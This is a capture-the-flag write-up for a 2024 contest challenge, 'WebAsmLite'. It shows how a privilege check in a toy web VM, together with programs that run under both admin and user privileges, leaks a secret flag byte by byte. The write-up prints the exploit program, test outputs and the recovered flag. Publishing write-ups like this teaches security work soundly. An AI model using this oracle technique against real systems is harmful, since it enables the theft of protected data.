


# Level 7A: WebAsmLite

## Description
>You've come so far, brave agents! Let us continue our mission to identify our threats, and retrieve the crucial information that they are hiding from the world.
>
>Your next target is a top-secret file named "flag.txt" which contains sensitive information accessible only to the admin of their web execution system. Your mission is to exfiltrate this file and bring it to light, exposing the chaos they intend to unleash upon our country.
>
>To add another layer of challenge, it seems like the enemy organization has deployed their file server on an isolated network with strict security measures. The server is only accessible through a specially designed secure web portal. The admin's credentials are unknown, but there might be some hidden vulnerabilities that you can exploit.
>
>Your fellow agents have found the URL to the portal, and that will be your starting point! Your task is to use your hacking skills and keen problem-solving abilities to find a way into the system, access the elusive "flag.txt" file, and claim victory against chaos.
>
>You will be provided with the following file:
>
>- MD5 (webasmvm.tar.xz) = 9c281969f5119fb02aafac691708baa4
>
>Service:
>http://chals.tisc24.ctf.sg:50128/
>
>Attached files:
>webasmvm.tar.xz

## Solution

Prepare the files.

```bash
┌──(kali㉿kali)-[~/Desktop/level-7a]
└─$ md5sum webasmvm.tar.xz
9c281969f5119fb02aafac691708baa4  webasmvm.tar.xz

┌──(kali㉿kali)-[~/Desktop/level-7a]
└─$ tar -xvf webasmvm.tar.xz
ascii.s
server.js
smolvm.js
```

Tested instruction set in `ascii.s` and observed that 8 registers ("reg") can be manipulated.

  

Tried to read flag.txt and observed that when a file is unreadable, the first register will return -1 (expressed as 255).

```
Input:
READ:flag.txt;
HALT;

Output:
{
  "timestamp": "2024-09-23T18:14:56.834Z",
  "adminResult": "REDACTED",
  "userResult": {
    "status": "Job Ended",
    "vm_state": {
      "pc": 1,
      "reg": "255,0,0,0,0,0,0,0",
      "memory": "________________________________________________________________"
    }
  }
}
```

Examined `server.js` and observed that the instruction set will be run twice, once as adminuser and once as publicuser.

```js
---redacted---
app.post('/requestadmin', (req, res) => {
  const { prgmstr } = req.body

  const fs = new SMOLFS()
  fs.createFile(adminuser, 'flag.txt', new TextEncoder().encode(process.env.TISC_FLAG))

  const adminVM = new SMOLVM(fs)
  adminVM.execute(adminuser, prgmstr)
  const userVM = new SMOLVM(fs)
  const userResult = userVM.execute(publicuser, prgmstr)
  const output = {
    timestamp: new Date().toISOString(),
    adminResult: "REDACTED",
    userResult: userResult
  }
  res.json(output)
})
---redacted---
```

Examined `smolvm.js` and observed that privileges were checked before performing file operations.

```js
---redacted---
  createFile (user, filename, binary) {
    if (!this.directory[filename]) {
      const f0 = new SMOLFILE()
      f0.owner = user.username
      f0.priv = user.privlvl
      for (let i = 0; i < 32; i++) {
        f0.content[i] = binary[i]
      }

      this.directory[filename] = f0
    }
  }

  destroyFile (user, filename) {
    if (this.directory[filename]) {
      if (user.username === this.directory[filename].owner) {
        delete this.directory[filename]
      }
    }
  }

  readFile (user, filename) {
    if (this.directory[filename]) {
      if (user.username === this.directory[filename].owner || user.privlvl > this.directory[filename].priv) {
        return this.directory[filename].content
      }
    }
  }
---redacted---
```

Designed the following instruction set to perform the conditional checks to leak the flag.

```
WRITE:test.txt;
READ:test.txt;  // If adminuser created test.txt and not deleted, publicuser cannot read.
IMM:1:255;
SUB:2:0:1;
JNZ:2:2;  // Jump 2 instructions forward if can read test.txt.
HALT;
READ:flag.txt;
IMM:3:32;  // Set the memory address to be checked, first byte at mem[32].
LOAD:4:3;
IMM:5:84;  // Guess that first char of flag is 'T', represented by '84' in ASCII.
SUB:6:4:5;
JZ:6:2;  // Jump 2 instructions forward if guess is correct.
HALT;
DEL:test.txt;  // If guess is correct, delete test.txt.
HALT;
```

Conduct test case on the instruction set. Observed that "pc" will be 12 when the guess is correct and 5 when the guess is wrong.

```
Test Case 1 (Guess is correct)

Input:
WRITE:test.txt;
READ:test.txt;
IMM:1:255;
SUB:2:0:1;
JNZ:2:2;
HALT;
READ:flag.txt;
IMM:3:32;
LOAD:4:3;
IMM:5:84;
SUB:6:4:5;
JZ:6:2;
HALT;
DEL:test.txt;
HALT;

Output:
{
  "timestamp": "2024-09-23T18:54:40.730Z",
  "adminResult": "REDACTED",
  "userResult": {
    "status": "Job Ended",
    "vm_state": {
      "pc": 12,
      "reg": "255,255,1,32,0,84,172,0",
      "memory": "________________________________________________________________"
    }
  }
}

Test Case 2 (Guess is wrong)

Input:
WRITE:test.txt;
READ:test.txt;
IMM:1:255;
SUB:2:0:1;
JNZ:2:2;
HALT;
READ:flag.txt;
IMM:3:32;
LOAD:4:3;
IMM:5:85;
SUB:6:4:5;
JZ:6:2;
HALT;
DEL:test.txt;
HALT;

Output:
{
  "timestamp": "2024-09-23T18:54:59.114Z",
  "adminResult": "REDACTED",
  "userResult": {
    "status": "Job Ended",
    "vm_state": {
      "pc": 5,
      "reg": "255,255,0,0,0,0,0,0",
      "memory": "________________________________________________________________"
    }
  }
}
```

Using Burp Suite, intercept a sample request and Send to Repeater. Examined the Request and Response.

  

Write python script to automate the guessing efforts for mem[32] to mem[63] (32 bytes) with '32' to '127' (ASCII printable characters). Script used can be found [here](./level-7a-solution.py).

```bash
┌──(kali㉿kali)-[~/Desktop/level-7a]
└─$ python level-7a-solution.py                                        
Obtained flag: TISC{le4ky_l3aky_1f8e3ba511ee!}
```

## Flag
`TISC{le4ky_l3aky_1f8e3ba511ee!}`